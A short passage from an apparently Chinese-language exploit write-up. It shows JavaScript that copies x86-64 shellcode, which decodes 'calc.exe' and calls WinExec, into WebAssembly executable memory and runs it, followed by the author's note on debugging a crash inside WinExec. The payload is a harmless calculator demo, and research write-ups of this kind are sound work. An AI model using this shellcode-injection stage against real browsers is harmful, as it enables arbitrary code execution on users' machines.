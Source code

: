 ```javascript
  0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7,
  0xD0, 0x50, 0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83,
  0xEC, 0x20, 0x41, 0xFF, 0xD6]);

for(let i = 0; i < shellcode_src.length; ++i) {
  shellcode_zone[i] = shellcode_src[i]
}
wasmInstance.exports.main()
```

调试一下确实发现了问题，不过并不是安全问题，是 `WinExec` 运行过程中发生了内存访问异常。

![](</assets/images/Pasted image 20220224221751.png>)
